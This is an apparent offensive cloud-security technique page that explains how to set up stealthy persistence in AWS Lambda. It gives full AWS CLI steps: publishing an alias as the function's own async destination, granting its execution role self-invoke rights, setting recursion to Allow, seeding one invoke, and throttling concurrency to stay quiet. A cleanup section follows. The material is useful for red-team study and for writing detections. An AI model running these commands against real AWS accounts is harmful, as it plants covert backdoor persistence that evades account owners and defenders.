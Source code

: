 # AWS - Lambda Async Self-Loop Persistence via Destinations + Recursion Allow

Abuse Lambda asynchronous destinations together with the Recursion configuration to make a function continually re-invoke itself with no external scheduler (no EventBridge, cron, etc.). By default, Lambda terminates recursive loops, but setting the recursion config to Allow re-enables them. Destinations deliver on the service side for async invokes, so a single seed invoke creates a stealthy, code-free heartbeat/backdoor channel. Optionally throttle with reserved concurrency to keep noise low.

Notes
- Lambda does not allow configuring the function to be its own destination directly. Use a function alias as the destination and allow the execution role to invoke that alias.
- Minimum permissions: ability to read/update the target function’s event invoke config and recursion config, publish a version and manage an alias, and update the function’s execution role policy to allow lambda:InvokeFunction on the alias.

## Requirements
- Region: us-east-1
- Vars:
  - REGION=us-east-1
  - TARGET_FN=<target-lambda-name>

## Steps

1) Get function ARN and current recursion setting
```
FN_ARN=$(aws lambda get-function --function-name "$TARGET_FN" --region $REGION --query Configuration.FunctionArn --output text)
aws lambda get-function-recursion-config --function-name "$TARGET_FN" --region $REGION || true
```

2) Publish a version and create/update an alias (used as self destination)
```
VER=$(aws lambda publish-version --function-name "$TARGET_FN" --region $REGION --query Version --output text)
if ! aws lambda get-alias --function-name "$TARGET_FN" --name loop --region $REGION >/dev/null 2>&1; then
  aws lambda create-alias --function-name "$TARGET_FN" --name loop --function-version "$VER" --region $REGION
else
  aws lambda update-alias --function-name "$TARGET_FN" --name loop --function-version "$VER" --region $REGION
fi
ALIAS_ARN=$(aws lambda get-alias --function-name "$TARGET_FN" --name loop --region $REGION --query AliasArn --output text)
```

3) Allow the function execution role to invoke the alias (required by Lambda Destinations→Lambda)
```
# Set this to the execution role name used by the target function
ROLE_NAME=<lambda-execution-role-name>
cat > /tmp/invoke-self-policy.json <<EOF
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "lambda:InvokeFunction",
      "Resource": "${ALIAS_ARN}"
    }
  ]
}
EOF
aws iam put-role-policy --role-name "$ROLE_NAME" --policy-name allow-invoke-self --policy-document file:///tmp/invoke-self-policy.json --region $REGION
```

4) Configure async destination to the alias (self via alias) and disable retries
```
aws lambda put-function-event-invoke-config \
  --function-name "$TARGET_FN" \
  --destination-config OnSuccess={Destination=$ALIAS_ARN} \
  --maximum-retry-attempts 0 \
  --region $REGION

# Verify
aws lambda get-function-event-invoke-config --function-name "$TARGET_FN" --region $REGION --query DestinationConfig
```

5) Allow recursive loops
```
aws lambda put-function-recursion-config --function-name "$TARGET_FN" --recursive-loop Allow --region $REGION
aws lambda get-function-recursion-config --function-name "$TARGET_FN" --region $REGION
```

6) Seed a single asynchronous invoke
```
aws lambda invoke --function-name "$TARGET_FN" --invocation-type Event /tmp/seed.json --region $REGION >/dev/null
```

7) Observe continuous invocations (examples)
```
# Recent logs (if the function logs each run)
aws logs filter-log-events --log-group-name "/aws/lambda/$TARGET_FN" --limit 20 --region $REGION --query events[].timestamp --output text
# or check CloudWatch Metrics for Invocations increasing
```

8) Optional stealth throttle
```
aws lambda put-function-concurrency --function-name "$TARGET_FN" --reserved-concurrent-executions 1 --region $REGION
```

## Cleanup
Break the loop and remove persistence.
```
aws lambda put-function-recursion-config --function-name "$TARGET_FN" --recursive-loop Terminate --region $REGION
aws lambda delete-function-event-invoke-config --function-name "$TARGET_FN" --region $REGION || true
aws lambda delete-function-concurrency --function-name "$TARGET_FN" --region $REGION || true
# Optional: delete alias and remove the inline policy when finished
aws lambda delete-alias --function-name "$TARGET_FN" --name loop --region $REGION || true
ROLE_NAME=<lambda-execution-role-name>
aws iam delete-role-policy --role-name "$ROLE_NAME" --policy-name allow-invoke-self --region $REGION || true
```

## Impact
- Single async invoke causes Lambda to continually re-invoke itself with no external scheduler, enabling stealthy persistence/heartbeat. Reserved concurrency can limit noise to a single warm execution.

